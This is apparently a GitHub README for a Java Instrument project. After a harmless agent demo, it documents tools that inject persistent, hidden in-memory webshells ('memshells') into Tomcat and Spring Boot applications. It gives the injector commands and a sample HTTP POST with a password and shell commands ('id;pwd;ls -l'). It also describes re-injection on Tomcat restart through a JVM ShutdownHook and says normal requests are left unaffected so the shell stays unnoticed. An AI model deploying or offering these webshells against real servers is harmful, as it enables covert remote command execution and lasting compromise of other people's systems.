

# JavaInstrument

## 1、A demo that uses Java Instrument.

The release stuff is in directory `hook-test`.

Usage:
 - step 1: Enter command as below in a terminal
```shell
java -jar TargetApp.jar
```
- step 2: Enter command as below in another terminal
```shell
java -jar AgentDemoStarted.jar
```
- step 3: Observe it in the first terminal.




## 2、An Agent-Type and eternal memshell for Tomcat

The release stuff is in directory `tomcat-agentmemshell-test`

Test environment: SpringMVC 5.2.0 + Tomcat 8.5.39

Usage:
 - step 1: Put your webapp(`xxx.war`) into `webapps` directory of Tomcat, and start up the Tomcat Server.
 - step 2: enter command as below.
```shell
java -jar AgentTomcatMemShellInject.jar <webshell-password>
```
 - step 3: To access the memshell, you can access an existing url or a not existing url with several specified parameters, 
   `pwd`,`model`,`scode`. Just like as below:
   ```
   POST /test/index HTTP/1.1
   Host: 127.0.0.1:8888
   Pragma: no-cache
   Cache-Control: no-cache
   DNT: 1
   Upgrade-Insecure-Requests: 1
   User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
   Cookie: JSESSIONID=BA296256CC1B51094A14795C62EF96B2; JSESSIONID=ECA0C078C7F6014BD41004139F5563EF; _dd_s=logs=1&id=1653c1be-a457-4604-938f-2abb59b78950&created=1649118027934&expire=1649120037627
   Connection: close
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 38

   pwd=m01e&model=exec&scode=id;pwd;ls+-l
   ```
   
   You'll see there is no effect on existing logic when you don't add 
   the specified paremeters.
   
   
Worth mentioning that this memshell is eternal even if Tomcat server restarted.
Because the JVM **ShutdownHook** of Tomcat process is set. If you want to stop 
it from injecting again, you should kill the process `AgentTomcatMemShellInject.jar` 
before Tomcat restarting.


## 3、An Agent-Type memshell for Springboot.

The release stuff is in directory `springboot-agentmemshell-test`

Test environment: Springboot 2.6.0

Usage:
- step 1: Start your Springboot app(`.jar`) with command `java -jar xxx.jar`.
- step 2: Access an existing url or a not existing url without any parameter.  
- step 3: Enter command as below.
```shell
java -jar AgentSpringbootMemShellInject.jar <webshell-password> <target-springboot-app-jar-name-without-suffix>

# e.g
java -jar AgentSpringbootMemShellInject.jar m01e springboot-controller-memshell-0.0.1-SNAPSHOT
```
- step 4: Access an existing url or a not existing url with several specified parameters,
  `pwd`,`model`,`scode`.

Similarly, there is no effect on existing logic when you don't add
the specified paremeters.


But I can't make this memshell eternal when the Springboot app process restarted.
Because when the agent is attached into Springboot app, I have no idea how to obtain the Tomcat port in the `agentmain()` method.


## Reference：
Inspired by rebeyond: <br>
[1] https://www.cnblogs.com/rebeyond/p/9686213.html <br>
[2] https://github.com/rebeyond/memShell